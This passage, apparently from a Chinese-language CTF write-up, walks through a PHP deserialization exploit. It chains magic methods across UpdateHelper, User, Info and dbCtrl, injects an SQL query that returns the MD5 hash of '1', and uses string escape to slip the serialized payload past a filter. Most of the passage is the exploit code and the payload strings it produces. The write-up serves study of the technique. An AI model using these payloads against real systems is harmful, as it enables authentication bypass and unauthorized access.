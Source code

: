 ```
    {
        $this->CtrlCase = new dbCtrl();
    }
}
class UpdateHelper
{
    public $sql;
    public function __construct()
    {
        $this->sql = new User();
    }
}
class dbCtrl
{
    public $name = "admin";
    public $password = "1";
}
$o = new UpdateHelper;
echo serialize($o);

```

把UpdateHelper类的sql赋值成了一个User类，UpdateHelper类的\_\_destruct会echo this->sql,触发User类的\__toString。因为User类的nickname被赋值成了一个Info类，而Info类是没有update函数的，这时候会默认触发Info的__call函数，调用CtrlCase的login。CtrlCase已经实例化成dbCtrl，参数是User的age，我们改成'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?'
这时候就达到目的

```
public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }

```

此时，我们得到了一个反序列化字符串

```
O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}

```

下一步是要让它绕过safe函数，这里终于要用到提过的字符串逃逸了

```
<?php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
}

$a = new Info();
$a->age="1";
$a->nickname='********";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}';
echo serialize($a);

```
